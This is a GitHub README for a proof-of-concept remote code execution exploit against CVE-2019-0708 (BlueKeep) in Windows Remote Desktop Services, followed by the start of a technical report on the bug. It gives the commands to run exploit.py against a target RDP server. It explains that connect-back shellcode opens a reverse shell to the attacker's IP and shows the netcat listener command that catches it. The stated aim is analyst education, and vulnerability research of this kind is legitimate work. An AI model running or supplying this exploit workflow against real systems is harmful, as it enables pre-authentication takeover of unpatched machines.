 # CVE-2019-0708 (BlueKeep) pre-auth RCE POC on Windows7

This repository demonstrates the remote code execution bug in Windows Remote Desktop Services (RDS).   

Here is a POC code and technical report about BlueKeep vulnerability, which we developed before.  
**NOTE:** Our goal is helping analysts to get better understanding about critical vulnerabilities.  
# How to use

### Prerequisites
Our exploit code is written in Python 3, and relies on [PyRDP](https://github.com/GoSecure/pyrdp) library. 
Please set up them following the installation guide of PyRDP.

### Usage
Currently our exploit targets, and is tested on, Windows 7 SP 1(6.1.7601) x64 on Virtual Box.

If your computer has the IP address 192.168.56.1 and you target the RDP server at example.com:1234, then type
```
$ python exploit.py example.com -rp 1234 192.168.56.1
```

If the script successfully exploits the server, a connect-back shellcode initiates a TCP connection from the server back to 192.168.56.1:4444.
Therefore, for example you should wait for the connection with netcat:
```
$ nc -v -l 4444
```

If you want to change the port number to which the server connect back, use the `-bp` option:
```
$ python exploit.py example.com -rp 1234 192.168.56.1 -bp 4567
```


# Report
## The Vulnerability
In the May 2019, Microsoft disclosed a critical Remote Code Execution vulnerability [CVE-2019-0708](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708), 
in Remote Desktop Services (formerly known as Terminal Services). This vulnerability is **pre-authentication** -- meaning the vulnerability is wormable, with the potential to cause widespread disruption. 
Attacker can exploit this vulnerability by sending crafted Remote Desktop Protocol (RDP) messages to the target server and get arbitrary code execution with administrative privileges.
## RDP Virtual Channel
Microsoft Remote Desktop Services provides a user with open interactive Windows sessions remotely. It presents the user's Windows desktop by communicating with the user client using Remote Desktop Protocol (RDP) over port 3389/TCP.  
  